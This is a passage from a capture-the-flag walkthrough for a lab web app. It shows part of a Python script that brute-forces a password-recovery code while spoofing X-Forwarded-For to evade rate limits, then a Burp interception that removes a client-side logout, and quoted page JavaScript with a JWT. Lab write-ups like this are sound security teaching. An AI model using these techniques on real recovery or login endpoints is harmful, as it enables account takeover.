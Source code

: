 ```python
            # Check if the response indicates a successful guess
            if "Invalid or expired recovery code!" not in response.text:
                print(f"Success! The correct code is {digit}.")
                exit()
            
            # Exit the retry loop if the request is successful
            break

        except requests.exceptions.Timeout:
            print(f"Timeout encountered on attempt {i+1}, retrying...")
```

This code will use a random 127.x.x.x IP address as the `X-Forwarded-For` header after 9 tries and makes sure that it doesn't re-use any IP.

> It might take a few tries with this method. I had to run the code multiple times for it to work.
{: .prompt-warning}	

![5018feb981e3e07f896c1b5b99742daa.png](5018feb981e3e07f896c1b5b99742daa.png){: w="400" h="300" .center}

Let's set the password to something simple like `tester` and try to log in.
![cb8ec8224b2cbad20819f11b7640891d.png](cb8ec8224b2cbad20819f11b7640891d.png){: w="400" h="300" .center}

Once we login, we see our first flag.
- We can also see that our **role** which is **user**
- The only command that we are allowed to run is `ls`
- The file `188ade1.key` is interesting
- We automatically logout after 10 seconds or so

![f25c0615f8e405528fddf52a2a8d11a0.png](f25c0615f8e405528fddf52a2a8d11a0.png){: w="500" h="300" .center}

## Flag 2
By inspecting the source code, we see that a client-side script is running and logging us out after 10 seconds.
![47b8fc39a18bab743e71f388eb748b1e.png](47b8fc39a18bab743e71f388eb748b1e.png){: w="500" h="300" .center}

We can simply intercept this page within Burp and comment-out the line which redirect us to `logout.php`
![82e2dd2b7e06e5a48ee1cb5bf265abe6.png](82e2dd2b7e06e5a48ee1cb5bf265abe6.png){: w="500" h="300" .center}

After inspecting the source code, we also learn how our commands are being communicated with the server:
```javascript
$(document).ready(function() {
    $('#submitCommand').click(function() {
        var command = $('#command').val();
        var jwtToken = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzI1MjE0MDc0LCJleHAiOjE3MjUyMTc2NzQsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.F9cMQWLXA68pD7ouNbg7DEroxENwPEXf9U9qlx1G7cc';

        // Make an AJAX call to the server to execute the command
        $.ajax({
            url: 'execute_command.php',
            method: 'POST',
            data: JSON.stringify({ command: command }),
            contentType: 'application/json',
            headers: {
                'Authorization': 'Bearer ' + jwtToken
            },
            success: function(response) {
                $('#commandOutput').text(response.output || response.error);
            },
```
